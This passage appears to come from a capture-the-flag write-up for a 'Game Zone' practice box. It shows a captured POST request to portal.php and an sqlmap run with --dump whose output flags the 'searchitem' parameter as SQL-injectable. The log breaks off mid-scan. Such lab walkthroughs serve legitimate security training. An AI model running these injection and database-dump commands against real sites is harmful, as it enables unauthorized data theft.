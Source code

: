 <br>

<pre><code>root@[Attack_Box]:~/gamezone# ls
request.txt
</code></pre>

<br>

<pre><code>root@[Attack_Box]:~/gamezone# cat request.txt 
POST /portal.php HTTP/1.1
Host: gamezone.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://gamezone.thm
Connection: close
Referer: http://gamezone.thm/portal.php
Cookie: PHPSESSID=khjmhnig4a5oq8qvp4prn7k5d5
Upgrade-Insecure-Requests: 1

searchitem=testing
</code></pre>

<br>

<pre><code>root@[Attack_Box]:~/gamezone# sqlmap -r request.txt --dbms=mysql --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 21:12:53

[21:12:53] [INFO] parsing HTTP request from 'request.txt'
[21:12:54] [INFO] testing connection to the target URL
[21:12:54] [INFO] testing if the target URL content is stable
[21:12:55] [INFO] target URL content is stable
[21:12:55] [INFO] testing if POST parameter 'searchitem' is dynamic
[21:12:55] [WARNING] POST parameter 'searchitem' does not appear to be dynamic
[21:12:55] [INFO] heuristic (basic) test shows that POST parameter 'searchitem' might be injectable (possible DBMS: 'MySQL')
[21:12:55] [INFO] heuristic (XSS) test shows that POST parameter 'searchitem' might be vulnerable to cross-site scripting (XSS) attacks
[21:12:55] [INFO] testing for SQL injection on POST parameter 'searchitem'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[21:13:17] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:13:17] [WARNING] reflective value(s) found and filtering out
[21:13:17] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[21:13:17] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[21:13:17] [INFO] POST parameter 'searchitem' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="be")
[21:13:17] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[21:13:17] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'